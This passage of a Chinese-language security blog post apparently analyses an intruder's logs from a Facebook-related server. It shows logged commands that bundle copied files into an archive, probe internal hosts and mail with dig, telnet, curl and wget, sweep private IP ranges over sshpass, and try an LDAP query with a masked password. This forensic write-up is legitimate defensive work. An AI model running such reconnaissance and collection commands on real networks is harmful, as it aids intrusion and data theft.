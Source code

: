 打包檔案
{% highlight bash %}
cat tmp_list3_2 | while read line; do cp /home/filex2/1000/$line files; done 2>/dev/stdout
tar -czvf files.tar.gz files
{% endhighlight %}
<br>

對內部網路結構進行探測
{% highlight tex %}
dig a archibus.thefacebook.com
telnet archibus.facebook.com 80
curl http://archibus.thefacebook.com/spaceview_facebook/locator/room.php
dig a records.fb.com
telnet records.fb.com 80
telnet records.fb.com 443
wget -O- -q http://192.168.41.16
dig a acme.facebook.com
./sshpass -p '********' ssh -v -o StrictHostKeyChecking=no soggycat@localhost 'for i in $(seq 201 1 255); do for j in $(seq 0 1 255); do echo "192.168.$i.$j:`dig +short ptr $j.$i.168.192.in-addr.arpa`"; done; done' 2>/dev/stdout
...
{% endhighlight %}
<br>

使用 Shell Script 進行內網掃描但忘記把 STDERR 導掉XD

![Port Scanning](/images/news/20160421/6.jpg)
<br>

嘗試對內部 LDAP 進行連接
{% highlight tex %}
sh: -c: line 0: syntax error near unexpected token `('
sh: -c: line 0: `ldapsearch -v -x -H ldaps://ldap.thefacebook.com -b CN=svc-accellion,OU=Service Accounts,DC=thefacebook,DC=com -w '********' -s base (objectclass=*) 2>/dev/stdout'
{% endhighlight %}
<br>

嘗試訪問內部網路資源  
( 看起來 Mail OWA 可以直接訪問 ...)  
{% highlight text %}
--20:38:09--  https://mail.thefacebook.com/
Resolving mail.thefacebook.com... 192.168.52.37
Connecting to mail.thefacebook.com|192.168.52.37|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://mail.thefacebook.com/owa/ [following]
--20:38:10--  https://mail.thefacebook.com/owa/
Reusing existing connection to mail.thefacebook.com:443.
HTTP request sent, awaiting response... 302 Moved Temporarily
Location: https://mail.thefacebook.com/owa/auth/logon.aspx?url=https://mail.thefacebook.com/owa/&reason=0 [following]
--20:38:10--  https://mail.thefacebook.com/owa/auth/logon.aspx?url=https://mail.thefacebook.com/owa/&reason=0
Reusing existing connection to mail.thefacebook.com:443.
HTTP request sent, awaiting response... 200 OK
Length: 8902 (8.7K) [text/html]
Saving to: `STDOUT'

     0K ........                                              100% 1.17G=0s

20:38:10 (1.17 GB/s) - `-' saved [8902/8902]

--20:38:33--  (try:15)  https://10.8.151.47/
Connecting to 10.8.151.47:443... --20:38:51--  https://svn.thefacebook.com/
Resolving svn.thefacebook.com... failed: Name or service not known.
--20:39:03--  https://sb-dev.thefacebook.com/
Resolving sb-dev.thefacebook.com... failed: Name or service not known.
failed: Connection timed out.